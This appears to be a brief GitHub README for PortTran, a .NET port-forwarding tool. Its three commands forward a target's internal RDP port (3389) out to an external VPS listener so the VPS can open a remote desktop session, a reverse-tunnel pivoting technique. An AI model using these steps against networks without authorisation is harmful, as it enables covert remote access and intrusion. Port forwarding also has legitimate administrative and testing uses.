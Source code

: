 PortTran by k8gege<br>
.NET端口转发工具 支持任意权限<br> 

0x001 外网VPS监听<br>
PortTranS.exe 8000 338<br>
<img src=https://github.com/k8gege/PortTran/blob/master/img/vps.PNG></img><br>
0x002 目标内网转发<br>
PortTranC.exe 192.168.85.169 3389 192.168.85.142 8000<br>
<img src=https://github.com/k8gege/PortTran/blob/master/img/target.PNG></img><br>

0x003 VPS连接3389<br>
mstsc /console /v:127.0.0.1:338<br>
<img src=https://github.com/k8gege/PortTran/blob/master/img/3389.PNG></img><br>
